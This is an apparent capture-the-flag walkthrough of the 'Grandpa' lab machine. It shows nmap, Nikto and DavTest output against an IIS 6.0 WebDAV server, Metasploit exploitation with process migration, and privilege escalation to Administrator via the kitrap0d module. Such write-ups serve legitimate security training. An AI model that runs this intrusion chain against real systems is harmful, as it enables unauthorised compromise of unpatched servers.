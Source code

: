# Grandpa

## Information Gathering
Grandpa<br>
10.10.10.14<br>

Software Versions
- MicrosoftOfficeWebServer 5.0_Pub
- Microsoft-IIS/6.0
- MS-FP/4.0,DAV

## Enumeration
Of course start with the nmap:
```bash
# Nmap 7.92 scan initiated Sun Feb 20 16:14:33 2022 as: nmap -sC -sV -oN nmap/grandpa.nmap -Pn 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.031s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sun, 20 Feb 2022 21:21:45 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 16:14:45 2022 -- 1 IP address (1 host up) scanned in 12.10 seconds

```
Since there is a webserver I run a Nikto scan
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.14
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 1.1.4322
+ OPTIONS Retrieved dasl header: <DAV:sql>
+ OPTIONS Retrieved dav header: 1, 2
+ OPTIONS Retrieved ms-author-via header: MS-FP/4.0,DAV
+ OPTIONS Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: GET HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: GET HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: GET HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ OPTIONS WebDAV enabled (COPY LOCK SEARCH UNLOCK MKCOL PROPPATCH PROPFIND listed as allowed)
+ OSVDB-13431: PROPFIND PROPFIND HTTP verb may show the servers internal IP address: http://10.10.10.14/
+ OSVDB-396: GET /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: GET /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: GET /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3500: GET /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. CVE-1999-1376. BID-2252.
+ OSVDB-67: POST /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ GET /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.

```
I also ran a DavTest because this webserver appears to be running WebDav:
```bash
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: XCfZ_8dkF
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     pl      FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     php     FAIL
PUT     asp     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     cgi     FAIL
PUT     shtml   FAIL
PUT     cfm     FAIL
PUT     html    FAIL

********************************************************
/usr/bin/davtest Summary:
```
## Exploitation
Looking at the HTTP header, this server is running MS-FP/4.0DAV and Microsoft IIS 6.0. Doing a bit of searching reveals a CVE: https://www.exploit-db.com/exploits/41738<br> 
There is also a Metasploit module for this. Setting the options for Metasploit and running exploit pops a Metasploit shell. However, I do not have permissions to run getuid, probably because my user does not have permissions. This probably means I have to migrate to a different process. I read <a href="https://jlajara.gitlab.io/others/2018/11/26/process-migration.html">this</a> article about Metasploit migration since I've never done it before.
```
meterpreter> ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 584   392   svchost.exe
 668   392   svchost.exe
 736   392   svchost.exe
 768   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1064  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1312  392   VGAuthService.exe
 1380  392   vmtoolsd.exe
 1484  392   svchost.exe
 1588  392   svchost.exe
 1764  392   dllhost.exe
 1908  392   alg.exe
 1936  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2248  584   wmiprvse.exe
 2360  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2432  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2480  2360  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe


```
I migrated to the wmiprvse.exe and get a suitable shell.
``` 
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

## Privilege Escalation
Backgrounding the process and running the <b>mulit/recon/local_exploit_suggester</b>.
```
[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable. 
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated. 
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
The first exploit <b>exploit/windows/local/ms10_015_kitrap0d</b> got me an Administrator shell.
